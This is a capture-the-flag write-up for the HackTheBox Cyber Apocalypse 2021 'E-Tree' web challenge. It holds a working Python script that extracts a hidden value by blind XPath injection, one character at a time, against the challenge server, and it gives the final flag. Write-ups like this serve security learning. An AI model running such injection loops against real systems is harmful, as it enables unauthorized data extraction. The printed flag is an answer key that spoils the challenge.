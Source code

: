 ```yaml
---
name: E-Tree (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Web
description: Writeup for E-Tree (Web) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# E-Tree

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/vqR4i730soY/0.jpg)](https://youtu.be/vqR4i730soY?t=2162s "HTB Cyber Apocalypse CTF 2021: E-Tree")

## Challenge Description

> E.Tree was a Python Flask application that used XPATH to parse XML files. We were presented with an example XML file from where we could see that some users have an additional selfDestructCode element set. Knowing this, we were able to do an error-based XPATH injection to determine the flag.

## Solution

{% code overflow="wrap" %}
```py
import requests
import string
from time import sleep

flag_pt1 = "CHTB{Th3_3xTr4_l3v3l_"
flag = "4Cc3s$_c0nTr0l}"
url = "http://139.59.168.47:30661/api/search"

# Each time a successful login is seen, restart loop
restart = True
count = len(flag) + 1

while restart:
    restart = False
    for char in "_" + string.ascii_letters + string.digits + "!#$%^()@{}£&*-=+.,~:;[]":
		# Update position index for the 2 seperate flag parts
        post_data = {"search": "' or substring((/military/district[position()=3]/staff[position()=2]/selfDestructCode)," + str(count) + ",1)=\"" + char + "\" or ''=' "}
        print(post_data)
        try:
            r = requests.post(url, json=post_data, headers={'Content-Type': 'application/json'})
        except BaseException:
            pass
        # Correct char results in "successful password"
        if 'exists' in r.text:
            restart = True
            count += 1
            flag += char
            print(flag)
            # Exit if "}" gives a valid redirect
            if char == "}":
                print("\nFlag: " + flag)
                exit(0)
            break

        sleep(1)
```
{% endcode %}

Flag: `CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}`
